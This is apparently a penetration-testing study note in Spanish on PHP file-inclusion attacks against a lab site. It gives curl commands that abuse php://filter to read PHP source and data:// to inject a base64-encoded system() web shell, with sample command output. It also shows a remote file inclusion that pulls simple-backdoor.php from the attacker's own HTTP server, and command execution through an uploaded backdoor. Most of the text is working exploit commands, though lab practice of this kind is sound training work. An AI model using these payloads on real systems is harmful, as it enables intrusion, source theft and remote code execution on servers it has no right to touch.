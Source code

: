 Los logs se encuentran en el siguiente path 

C:\xampp\apache\logs\.

### Wrappers

Estos son utilizados para desplegar el código de php, por ejemplo

#### php://filter
```sh
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php
```
Este request muestra el admin.php, pero solamente el código html
```sh
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php
```
Este request si devuelve el código php, porque no se ejecuta en el server y es posible leerlo

#### data://

El data sirve para poder incluir elementos como plaitext or base64 en el web server. Por ejemplo:
```sh
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"
```
Otra forma puede ser:
```sh
kali@kali:~$ echo -n '<?php echo system($_GET["cmd"]);?>' | base64
PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==

kali@kali:~$ curl 
"http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZW
NobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
...
<a href="index.php?page=admin.php"><p style="text-align:center">Admin</p></a>
admin.php
bavarian.php
css
fonts
img
index.php
```

## Remote File Inclusion (RFI)

python3 -m http.server 80
curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.119.3/simple-backdoor.php&cmd=ls"

Siempre revisar si hay carpeta de uploads

curl http://192.168.50.189/meteor/uploads/simple-backdoor.pHP?cmd=dir

### SSH 
